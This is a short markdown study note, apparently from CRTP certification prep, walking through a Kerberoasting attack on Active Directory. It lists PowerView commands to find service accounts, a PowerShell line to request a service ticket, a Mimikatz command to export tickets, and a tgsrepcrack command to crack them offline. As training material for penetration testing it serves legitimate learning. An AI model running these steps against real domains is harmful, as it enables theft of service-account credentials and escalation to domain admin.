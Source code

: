 ```yaml
---
title: "16. Kerberoast"
section: "crtp"
date: 2022-04-15
tags: ["Domain Priv Esc", "kerberoast"]
---
```


## Methodology/Steps
> 1. First find all the SPN accounts
> 2. Select SPN of a domain admin since we doing privilege escalation
> 3. Set the SPN as the argumentlist value and create a new object ( request a TGS )
> 4. Export the all the tickets by mimikatz
> 5. Keep a note of the file name where the ticket is stored of that service
> 6. Crack the ticket


## Find user accounts used as Service account
```powershell
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
```

## Request TGS 
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/computer.domain.local"
```

## Check if the TGS has been granted
```powershell
klist
```

## Export all the tickets
> Copy the file name of the ticket you exported; In this case its the file path for MSSQLSvc
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

## tgsrepcrack
> **Request-SPNTicket** with PowerView can be used for cracking with JTR
```python
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-user1@MSSQLSvc~computer.domain.localDOMAIN.LOCAL.kirbi
```